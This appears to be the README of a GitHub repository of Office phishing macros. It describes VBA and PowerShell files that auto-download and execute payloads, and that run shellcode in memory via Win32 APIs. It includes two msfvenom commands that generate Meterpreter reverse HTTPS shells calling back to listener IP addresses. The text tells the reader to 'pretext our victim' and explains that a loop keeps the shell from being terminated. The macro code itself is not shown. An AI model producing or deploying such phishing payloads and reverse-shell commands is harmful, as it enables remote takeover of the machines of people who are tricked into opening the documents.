 Basic phishing to auto download our payload than auto execute using vba

phish.vba

Remember to pretext our victim
![image](https://github.com/VietTheBarbarian/OfficePhishing/assets/56415307/5683bbc3-0abb-40a1-9e22-69a2ce8f080f)

Intermediate rce via phishing by running executed shellcode in memory by using three Win32 APIs from Kernel32.dll:  
VirtualAlloc_, RtlMoveMemory, and _CreateThread

runner.vba

Will exit when you close office 
![image](https://github.com/VietTheBarbarian/OfficePhishing/assets/56415307/ee96d583-50fa-4ff8-ad86-677e35bb54f5)

msfvenom -p  windows/meterpreter/reverse_https lhost=10.10.11.135 lport=443 EXITFUN=thread -f vbapplication


run.ps1 and auto.vba
using powershell to call win32 api to execute reverse shell
To prevent termination added wait forever 
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 EXITFUNC=thread -f ps1
![image](https://github.com/VietTheBarbarian/OfficePhishing/assets/56415307/16262bf9-823f-4ef6-a482-64ecb68ecbf8)
